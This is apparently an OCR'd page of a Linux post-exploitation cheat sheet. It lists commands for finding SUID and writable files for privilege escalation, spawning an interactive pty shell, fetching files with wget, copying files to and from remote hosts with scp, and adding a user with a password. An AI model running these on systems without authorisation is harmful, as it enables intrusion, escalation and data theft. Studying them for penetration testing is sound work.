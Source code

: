 ### `find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;`

- **Short Description:** Find files with SUID.
- **Tactics and Techniques:** Find Files with SUID

### `find / -uid 0 -perm -4000 -type f 2>/dev/null`

- **Short Description:** Find files with SUID owned by root.
- **Tactics and Techniques:** Find Files with SUID Owned by Root

### `find / -writable ! -user whoami -type f ! -path “/proc/” ! -path “/sys/” -exec ls -al {} \; 2>/dev/null`

- **Short Description:** Show writable files.
- **Tactics and Techniques:** Show Writable Files

## Functional Commands

### `python -c “import pty;pty.spawn(‘/bin/bash’)”`

- **Short Description:** Spawn an interactive shell.
- **Tactics and Techniques:** Shell Interactive

### `wget http://url -O url.txt -o /dev/null`

- **Short Description:** Download a file from a URL.
- **Tactics and Techniques:** Download a File

### `rdesktop ip`

- **Short Description:** Access desktop IP.
- **Tactics and Techniques:** Access Desktop IP

### `scp /tmp/file user@x.x.x.x:/tmp/file`

- **Short Description:** Send a file to a remote host.
- **Tactics and Techniques:** Send File

### `scp user@remoteip:/tmp/file /tmp/file`

- **Short Description:** Get a file from a remote host.
- **Tactics and Techniques:** Get File

### `useradd -m user`

- **Short Description:** Add a user.
- **Tactics and Techniques:** Add User

### `passwd user`

- **Short Description:** Change user password.
- **Tactics and Techniques:** Change User Password
